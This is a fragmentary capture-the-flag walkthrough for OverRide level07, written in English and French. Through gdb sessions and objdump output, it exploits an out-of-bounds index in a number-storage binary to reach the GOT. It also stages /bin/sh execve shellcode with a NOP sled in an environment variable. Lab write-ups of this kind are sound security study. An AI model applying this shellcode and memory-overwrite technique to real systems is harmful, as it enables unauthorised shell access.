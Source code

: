 <pre>
level07@OverRide:~$ gdb ./level07 

(gdb) b \*0x080486cb
Breakpoint 1 at 0x80486cb
(gdb) r
Starting program: /home/users/level07/level07 
\----------------------------------------------------
  Welcome to wil's crappy number storage service!   
\----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
\----------------------------------------------------
   wil has reserved some storage :>                 
\----------------------------------------------------

Input command: store 
 Number: 999
 Index: 1

Breakpoint 1, 0x080486cb in store\_number ()
(gdb) x $eax
0xffffd458:     0x00000000
</pre>

<pre>
objdump -R ./level07 

./level07:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R\_386\_GLOB\_DAT    \_\_gmon\_start\_\_
0804a040 R\_386\_COPY        stdin@@GLIBC\_2.0
0804a060 R\_386\_COPY        stdout@@GLIBC\_2.0
0804a000 R\_386\_JUMP\_SLOT   printf@GLIBC\_2.0
0804a004 R\_386\_JUMP\_SLOT   fflush@GLIBC\_2.0
0804a008 R\_386\_JUMP\_SLOT   getchar@GLIBC\_2.0
0804a00c R\_386\_JUMP\_SLOT   fgets@GLIBC\_2.0
0804a010 R\_386\_JUMP\_SLOT   \_\_stack\_chk\_fail@GLIBC\_2.4
0804a014 R\_386\_JUMP\_SLOT   puts@GLIBC\_2.0
0804a018 R\_386\_JUMP\_SLOT   \_\_gmon\_start\_\_
0804a01c R\_386\_JUMP\_SLOT   \_\_libc\_start\_main@GLIBC\_2.0
0804a020 R\_386\_JUMP\_SLOT   memset@GLIBC\_2.0
0804a024 R\_386\_JUMP\_SLOT   \_\_isoc99\_scanf@GLIBC\_2.7
</pre>

<pre>
(gdb) r
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 123
 Index: -1040108819

Breakpoint 1, 0x080486cb in store\_number ()
(gdb) x $eax
0x804a008 <getchar@got.plt>:    0xf7e94840
</pre>

<pre>
level07@OverRide:~$ env -i SC=$(python -c "print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')") SHELL=/bin/bash gdb ./level07 

(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) x/10s \*\*(char\*\*\*)&environ
0xffffdf7e:      "SHELL=/bin/bash"
0xffffdf8e:      "COLUMNS=120"
0xffffdf9a:      "PWD=/home/users/level07"
0xffffdfb2:      "LINES=49"
0xffffdfbb:      "SC=1\311\367\341Qh//shh/bin\211\343\260\v\315\200"
0xffffdfd4:      "SHLVL=0"
0xffffdfdc:      "/home/users/level07/level07"
0xffffdff8:      ""
0xffffdff9:      ""
0xffffdffa:      ""
(gdb) x 0xffffdfbb + 3
0xffffdfbe:      "1\311\367\341Qh//shh/bin\211\343\260\v\315\200"
</pre>

```
env -i SC=$(python -c "print('\x90' * 20  + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')") SHELL=/bin/bash
```

- Se qui est dans l'environnement et dans les arguments est supprimé

<pre>
(gdb)  b *0x08048887
Breakpoint 1 at 0x8048887
(gdb) b *0x80486cb
Breakpoint 2 at 0x80486cb
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048887 in main ()
(gdb) x $eax
0xffffd5e8:     0x726f7473  # retou de fgets
(gdb) c
Continuing.
 Number: 123
 Index: 1

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd458:     0x00000000 # index 1 du tableau

Input command: store
 Number: 1
 Index: -2

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd44c:     0xffffd6b8 # index -2 du tableau
</pre>

- 0xffffd5e8 - 0xffffd458 = 0x190 = 400
- ffffd5e8 - ffffd44c = 19c = 412
- ffffd608 - 19c = ffffd46c
